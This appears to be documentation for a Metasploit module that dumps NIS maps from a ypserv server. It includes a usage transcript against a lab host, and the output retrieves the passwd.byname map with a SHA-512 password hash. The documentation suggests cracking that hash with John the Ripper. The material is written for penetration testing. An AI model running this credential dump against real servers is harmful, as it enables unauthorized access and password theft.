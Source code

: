 ## Introduction

If you've worked with old Unix systems before, you've probably
encountered NIS (Network Information Service). The most familiar way of
describing it is a sort of hybrid between DNS and LDAP.

[Oracle][1] says the following about it:

> NIS is a distributed naming service. It is a mechanism for identifying and locating network objects and resources. It provides a uniform storage and retrieval method for network-wide information in a transport-protocol and media-independent fashion.

And on its use:

> By running NIS, the system administrator can distribute administrative databases, called maps, among a variety of servers (master and slaves). The administrator can update those databases from a centralized location in an automatic and reliable fashion to ensure that all clients share the same naming service information in a consistent manner throughout the network.

The module documented within will allow a tester to dump any map from an
NIS server (running as `ypserv`). Usually, maps like `passwd.byname`
contain things like hashes and user info, which can go a long way during
a pentest.

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

## Options

### PROTOCOL

Set this to either TCP or UDP. TCP is the default due to easy discovery.

### DOMAIN

Set this to your NIS domain.

### MAP

Set this to the NIS map you want to dump. The default is `passwd`. You
can use the nicknames described in the module info instead of the full
map names.

### XDRTimeout

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.0.2
rhost => 192.168.0.2
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.0.2:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```

After dumping a map, you can find it stored in `loot` later. You should
be able to run something like John the Ripper directly on the
`passwd.byname` map.

```
msf auxiliary(gather/nis_ypserv_map) > loot

Loot
====

host         service  type           name  content     info  path
----         -------  ----           ----  -------     ----  ----
192.168.0.2           passwd.byname        text/plain        /home/wvu/.msf4/loot/20180108143013_default_192.168.0.2_passwd.byname_509006.txt

msf auxiliary(gather/nis_ypserv_map) >
```

[1]: https://docs.oracle.com/cd/E23824_01/html/821-1455/anis1-25461.html
